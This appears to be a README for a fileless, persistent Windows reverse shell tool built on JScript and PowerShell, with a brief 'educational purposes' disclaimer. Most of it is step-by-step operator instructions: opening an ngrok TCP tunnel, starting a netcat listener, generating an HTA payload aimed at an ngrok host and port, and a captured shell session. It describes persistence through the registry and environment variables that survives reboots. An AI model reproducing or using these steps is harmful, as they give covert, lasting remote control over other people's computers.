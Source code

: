 # RVPW - misk0zz

# Reverse Shell Persistent Windows (RVPW) persistent reverse shell for windows
This is a fileless living off the land reverse shell written in JScript and Powershell script. It runs every time the windows boots and relies solely on windows registry and environment variables to execute without creating any files on the system<br>
Disclaimer: this program is only for educational purposes

## Reverse shell
In this case I'm using ngrok to make a tcp tunnel:
```
ngrok tcp 3333
```
then we run netcat to listen on port 3333
```
nc -nvlp 3333
```
### creating payload 
Now we can create out payload with our ngrok tunnel's domain and port 
```
python3 generador.py 8.tcp.ngrok.io 18053 payload.hta
```
all you have to do now is to run payload.hta in your windows machine and you get a reverse shell
```
┌─[kali@kali]─[~]
└──╼ $nc -nvlp 3333
listening on [any] 3333 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 50662
> echo hello
hello
> 
```
this reverse shell is persistent meaning every time you boot the windows the payload will execute
